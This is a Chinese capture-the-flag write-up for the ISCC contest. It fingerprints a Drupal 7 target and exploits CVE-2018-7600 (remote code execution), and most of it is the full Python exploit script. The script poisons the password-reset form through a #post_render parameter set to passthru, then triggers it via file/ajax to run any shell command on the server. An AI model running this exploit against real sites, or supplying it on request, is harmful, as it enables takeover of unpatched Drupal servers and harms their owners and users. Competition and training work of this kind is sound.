 ## 【ISCC1】实战题阶段1

首先配置好vpn，进入如下界面：

<img src="https://s2.loli.net/2023/05/05/NhkpyinoqErjV4T.png" alt="image-20230505104346422" style="zoom:33%;" />

然后右键查看源码，发现这是 `Drupal7`：

![image-20230505104503508](https://s2.loli.net/2023/05/05/4usi56zG89kVYj2.png)

然后网上查一下这个版本的漏洞：

<img src="https://s2.loli.net/2023/05/05/xlKjL7yfEshVbk8.png" alt="image-20230505104927918" style="zoom:33%;" />

好像有一个命令执行漏洞

访问 `/CHANGELOG.txt`可以发现相关版本日志

<img src="https://s2.loli.net/2023/05/05/hSiA5VzEBbIZf4W.png" alt="image-20230505105838750" style="zoom:33%;" />



然后我们去github上找一下[exp](https://github.com/pimps/CVE-2018-7600)：

<img src="https://s2.loli.net/2023/05/05/CMIF4Ea3zOds8QX.png" alt="image-20230505105645139" style="zoom:33%;" />

这个可以用，我们直接git下来

然后直接利用即可，查看所有进程的命令为：`ps aux`不要加`-`

<img src="https://s2.loli.net/2023/05/05/1pSuAjdfDU7kHmC.png" alt="image-20230505110054228" style="zoom:50%;" />

我们运行脚本：

![image-20230505110143668](https://s2.loli.net/2023/05/05/w2yNh4mCaZ1FEOr.png)

正确找到了进程号：`PID=2997`

脚本如下：

```python
import socket
import socks
import requests
import argparse
from bs4 import BeautifulSoup

socks.set_default_proxy(socks.SOCKS5, 'localhost', 1080)
socket.socket = socks.socksocket


def get_args():
  parser = argparse.ArgumentParser( prog="drupa7-CVE-2018-7600.py",
                    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=50),
                    epilog= '''
                    This script will exploit the (CVE-2018-7600) vulnerability in Drupal 7 <= 7.57
                    by poisoning the recover password form (user/password) and triggering it with
                    the upload file via ajax (/file/ajax).
                    ''')
  parser.add_argument("target", help="URL of target Drupal site (ex: http://target.com/)")
  parser.add_argument("-c", "--command", default="id", help="Command to execute (default = id)")
  parser.add_argument("-f", "--function", default="passthru", help="Function to use as attack vector (default = passthru)")
  parser.add_argument("-p", "--proxy", default="", help="Configure a proxy in the format http://127.0.0.1:8080/ (default = none)")
  args = parser.parse_args()
  return args

def pwn_target(target, function, command, proxy):
  requests.packages.urllib3.disable_warnings()
  proxies = {'http': proxy, 'https': proxy}
  print('[*] Poisoning a form and including it in cache.')
  get_params = {'q':'user/password', 'name[#post_render][]':function, 'name[#type]':'markup', 'name[#markup]': command}
  post_params = {'form_id':'user_pass', '_triggering_element_name':'name', '_triggering_element_value':'', 'opz':'E-mail new Password'}
  r = requests.post(target, params=get_params, data=post_params, verify=False, proxies=proxies)
  soup = BeautifulSoup(r.text, "html.parser")
  try:
    form = soup.find('form', {'id': 'user-pass'})
    form_build_id = form.find('input', {'name': 'form_build_id'}).get('value')
    if form_build_id:
        print('[*] Poisoned form ID: ' + form_build_id)
        print('[*] Triggering exploit to execute: ' + command)
        get_params = {'q':'file/ajax/name/#value/' + form_build_id}
        post_params = {'form_build_id':form_build_id}
        r = requests.post(target, params=get_params, data=post_params, verify=False, proxies=proxies)
        parsed_result = r.text.split('[{"command":"settings"')[0]
        print(parsed_result)
  except:
    print("ERROR: Something went wrong.")
    raise

def main():
  print ()
  print ('=============================================================================')
  print ('|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |')
  print ('|                              by pimps                                     |')
  print ('=============================================================================\n')

  args = get_args() # get the cl args
  pwn_target(args.target.strip(), args.function.strip(), args.command.strip(), args.proxy.strip())


if __name__ == '__main__':
  main()
```



